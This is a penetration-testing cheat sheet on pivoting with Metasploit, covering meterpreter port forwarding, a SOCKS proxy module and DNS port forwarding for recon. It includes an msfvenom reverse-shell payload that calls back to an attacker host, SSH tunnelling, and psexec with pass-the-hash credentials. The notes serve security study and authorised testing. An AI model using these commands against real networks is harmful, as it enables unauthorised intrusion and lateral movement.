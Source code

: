 # Metasploit

## 01 - Portfwd

### 1.1 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

### 1.2 - Usage

- Bind Port

`meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>`

- Reverse Port Forwarding

`meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>`

- Remove port forward rule

`meterpreter > portfwd <delete -l <local_port> -p <bind_port> -r <target_IP>`

- Remove all port forwarding rules

`meterpreter > portfwd flush`

## 02 - SOCKS Proxy

### 2.1 - Usage

```
msf > use auxiliary/server/socks_proxy

msf auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.

msf auxiliary(server/socks_proxy) > set version <4a | 5>

msf auxiliary(server/socks_proxy) > set srvhost <IP>

msf auxiliary(server/socks_proxy) > set srvport <PORT>

msf auxiliary(server/socks_proxy) > set username <username>

msf auxiliary(server/socks_proxy) > set password <password>

msf auxiliary(server/socks_proxy) > run -j
```

Refer to [[Proxychains]] section

### 2.2 - Scenarios

#### 2.2.1 - Portfwd

##### 2.2.2.1 - Bind Port

`meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>`

##### 2.2.2.2 - Reverse Bind Port Forwarding

Refer to [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/08 - Pivoting and Lateral Movement/Lateral Movement/Windows/P2P Callback Shells|P2P Callback Shells]]

##### 2.2.2.3 - DNS Port Forwarding To Perform Quick Recon

TODO: Refer to the links (under Scenarios section) with [[DNS2TCP]].

```
meterpreter > portfwd add -l <local_port> -L 127.0.0.1 -p 53 -r <DNS_server_IP>

meterpreter > portfwd list

$ cat /etc/dnsmasq.conf
..[snip]..

$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done
```

#### 2.2.2 - SOCKS Proxy

##### 2.2.2.1 - Dynamic Port Forwarding via Metasploit Framework

TODO: Provide screenshots and a graph illustration

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<SSH_IP> lport=4343 -f exe-service -o shellsvc.exe

$ ssh -R 4343:127.0.0.1:8884 <username>@<IP>

msf exploit(windows/smb/psexec) > set rhosts <IP>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf exploit(windows/smb/psexec) > set lhost <SSH_IP>

msf exploit(windows/smb/psexec) > set lport 4343

msf exploit(windows/smb/psexec) > set proxies socks4:127.0.0.1:1080

msf exploit(windows/smb/psexec) > set reverseallowproxy true

msf exploit(windows/smb/psexec) > set reverselistenerbindaddress 127.0.0.1

msf exploit(windows/smb/psexec) > set reverselistenerbindport 8884

msf exploit(windows/smb/psexec) > set exe::custom /path/to/shellsvc.exe
```

---
## References

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

- [Using Metasploit Routing and Proxychains for Pivoting](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)

- [Basic Pivoting Techniques: SSH Dynamic Port Forwarding + Metasploit over SSH](https://www.youtube.com/watch?v=6gqwxGE4o8E)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

- [How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

- [Port forwarding: Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

### Scenarios

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)